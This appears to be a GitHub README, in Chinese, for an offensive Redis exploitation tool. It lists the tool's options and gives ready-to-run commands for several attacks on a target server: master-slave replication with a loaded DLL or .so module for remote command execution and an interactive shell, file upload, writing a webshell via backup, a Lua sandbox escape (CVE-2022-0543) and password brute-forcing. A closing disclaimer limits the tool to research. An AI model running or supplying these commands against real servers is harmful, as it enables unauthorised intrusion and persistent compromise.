





## Redis 漏洞利用工具

帮助：`-h`

```
NAME:
   Redis Exp - Redis 利用工具

USAGE:
   Redis Exp [global options] command [command options] [arguments...]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --rhost value, -r value      目标IP
   --rport value, --rp value    目标端口 (default: "6379")
   --pwd value                  Redis密码
   --lhost value, -l value      本地IP
   --lport value, --lp value    本地端口 (default: "21000")
   --dll value, --so value      设置 exp.dll | exp.so (default: "exp.dll")
   --cmd value, -c value        命令执行
   --console                    使用交互式 shell (default: false)
   --exec                       主从复制命令执行 (default: false)
   --upload                     主从复制文件上传 (default: false)
   --rpath value, --path value  保存在目标的目录 (default: ".")
   --rfile value, --rf value    保存在目标的文件名
   --lfile value, --lf value    需要上传的文件名
   --lua                        Lua沙盒绕过命令执行 CVE-2022-0543 (default: false)
   --shell                      备份写 Webshell (default: false)
   --help, -h                   show help (default: false)
```

#### 主从复制漏洞

命令执行：

- 默认 windows 加载的是 `exp.dll`
- 默认是非交互式 shell

````
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console

RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
````



文件上传：

```
RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
```




#### 备份写 Webshell

```
RedisExp.exe -rhost 192.168.211.128 -shell
```




#### Lua沙盒绕过命令执行 CVE-2022-0543

```
RedisExp.exe -rhost 192.168.211.130 -lua -console
```




#### 爆破 Redis 密码

```
RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt
```




### 参考

本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile

 

### 声明

本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。
